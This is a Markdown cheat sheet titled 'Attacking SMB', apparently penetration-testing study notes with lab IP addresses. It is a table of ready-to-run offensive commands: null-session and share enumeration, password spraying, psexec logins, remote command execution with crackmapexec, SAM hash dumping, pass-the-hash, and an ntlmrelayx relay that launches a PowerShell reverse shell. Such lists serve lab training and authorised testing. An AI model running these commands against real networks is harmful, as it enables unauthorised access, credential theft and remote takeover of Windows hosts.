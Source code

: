 ## Attacking SMB

| **Command** | **Description** |
| --- | --- |
| `smbclient -N -L //10.129.14.128` | Null-session testing against the SMB service. |
| `smbmap -H 10.129.14.128` | Network share enumeration using `smbmap`. |
| `smbmap -H 10.129.14.128 -r notes` | Recursive network share enumeration using `smbmap`. |
| `smbmap -H 10.129.14.128 --download "notes\note.txt"` | Download a specific file from the shared folder. |
| `smbmap -H 10.129.14.128 --upload test.txt "notes\test.txt"` | Upload a specific file to the shared folder. |
| `rpcclient -U'%' 10.10.110.17` | Null-session with the `rpcclient`. |
| `./enum4linux-ng.py 10.10.11.45 -A -C` | Automated enumeratition of the SMB service using `enum4linux-ng`. |
| `crackmapexec smb 10.10.110.17 -u /tmp/userlist.txt -p 'Company01!'` | Password spraying against different users from a list. |
| `impacket-psexec administrator:'Password123!'@10.10.110.17` | Connect to the SMB service using the `impacket-psexec`. |
| `crackmapexec smb 10.10.110.17 -u Administrator -p 'Password123!' -x 'whoami' --exec-method smbexec` | Execute a command over the SMB service using `crackmapexec`. |
| `crackmapexec smb 10.10.110.0/24 -u administrator -p 'Password123!' --loggedon-users` | Enumerating Logged-on users. |
| `crackmapexec smb 10.10.110.17 -u administrator -p 'Password123!' --sam` | Extract hashes from the SAM database. |
| `crackmapexec smb 10.10.110.17 -u Administrator -H 2B576ACBE6BCFDA7294D6BD18041B8FE` | Use the Pass-The-Hash technique to authenticate on the target host. |
| `impacket-ntlmrelayx --no-http-server -smb2support -t 10.10.110.146` | Dump the SAM database using `impacket-ntlmrelayx`. |
| `impacket-ntlmrelayx --no-http-server -smb2support -t 192.168.220.146 -c 'powershell -e <base64 reverse shell>` | Execute a PowerShell based reverse shell using `impacket-ntlmrelayx`. |
| `msfconsole smb_login` from Aux | Passwort BruteForcing |
| [SMB-Access-from-Linux.pdf](../_resources/SMB-Access-from-Linux.pdf) | Weitere Befehle für `smbclient` und `rpcclient` |